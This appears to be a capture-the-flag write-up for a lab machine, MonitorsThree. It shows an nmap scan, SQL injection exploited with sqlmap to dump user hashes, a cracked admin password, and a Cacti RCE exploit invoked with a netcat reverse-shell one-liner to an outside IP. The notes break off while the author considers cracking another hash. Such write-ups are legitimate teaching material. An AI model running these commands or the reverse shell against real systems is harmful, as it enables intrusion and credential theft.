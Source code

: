 ```text
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.67 seconds
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page here:

![87a47714dbabb2c8a2718f6dffba59dc.png](../../../../_resources/87a47714dbabb2c8a2718f6dffba59dc.png)

Verified with the input '.

It might be blind, which would be somewhat difficult.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![f8705210e7dd5cec47d6ec19f2b9fbd0.png](../../../../_resources/f8705210e7dd5cec47d6ec19f2b9fbd0.png)

This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8:greencacti2001
```

I then attempted to crack the hashes via hashcat, however only one was successful:

![1735c8eea85caf68dbaeebd7ec9ccfa0.png](../../../../_resources/1735c8eea85caf68dbaeebd7ec9ccfa0.png)

We now have the credentials for admin@monitorsthree.htb.

&nbsp;

# Cacti

I found a cacti subdomain:

![23d1d19eea398363b2d2b09fda498b28.png](../../../../_resources/23d1d19eea398363b2d2b09fda498b28.png)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![729b187df6d1fb53dace4f0e404a9b80.png](../../../../_resources/729b187df6d1fb53dace4f0e404a9b80.png)

Cacti 1.2.26 suffers from rce via import template.

https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26

```
my-venv/bin/python3 CVE-2024-25641.py --user admin --pass greencacti2001 --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/f" http://cacti.monitorsthree.htb/cacti/
```

![19df152b8325579e01ff1d6f670f08e8.png](../../../../_resources/19df152b8325579e01ff1d6f670f08e8.png)

&nbsp;

Marcus is a user of cacti, and is also the only user on the machine:

![434874204e3549add6b2dfb00dc84d00.png](../../../../_resources/434874204e3549add6b2dfb00dc84d00.png)

Now we have access to the machine, I find the sql database has the base cactiuser enabled, meaning we should be able to auth as that user and access the hashed credentials of marcus which we could then attempt to crack.

![e7de064f30575ba6f4a8606986748179.png](../../../../_resources/e7de064f30575ba6f4a8606986748179.png)

Maybe crackable?